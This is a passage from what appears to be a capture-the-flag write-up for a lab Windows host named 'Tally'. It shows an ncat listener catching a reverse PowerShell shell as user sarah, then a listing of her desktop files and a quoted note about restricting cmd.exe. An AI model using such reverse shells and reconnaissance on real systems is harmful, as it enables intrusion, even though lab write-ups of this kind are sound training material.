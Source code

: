 As a result, we have a powershell shell :

```text
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.10.10.59.
Ncat: Connection from 10.10.10.59:56375.
whoami
tally\sarah
PS C:\Windows\system32> 
```

## Post-Exploitation

### Host Reconnaissance

Moving from the Windows folder to Sarah home folder (`C:\users\sarah\Desktop`) is interesting :

```powershell
PS> cd C:\users\sarah\Desktop
PS> ls
```

Result:

```text
    Directory: C:\users\sarah\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---       01/10/2017     22:32            916 browser.bat
-a----       17/09/2017     21:50            845 FTP.lnk            
-a----       23/09/2017     21:11            297 note to tim (draft).txt
-a----       19/10/2017     21:49          17152 SPBestWarmUp.ps1
-a----       19/10/2017     22:48          11010 SPBestWarmUp.xml
-a----       17/09/2017     21:48           1914 SQLCMD.lnk
-a----       21/09/2017     00:46            129 todo.txt
-a----       17/09/2017     21:49            936 zz_Migration.lnk
```

We can read the text note `note to tim (draft).txt`:

```text
Hi Tim,

As discussed in the cybersec meeting, malware is often hidden in trusted executables in order to evade detection. I read somewhere that cmd.exe is a common target for backdooring, so I've gone ahead and disallowed any cmd.exe outside the Windows folder from executing.

Thanks,
Sarah
```

We can read the text note `todo.txt`:
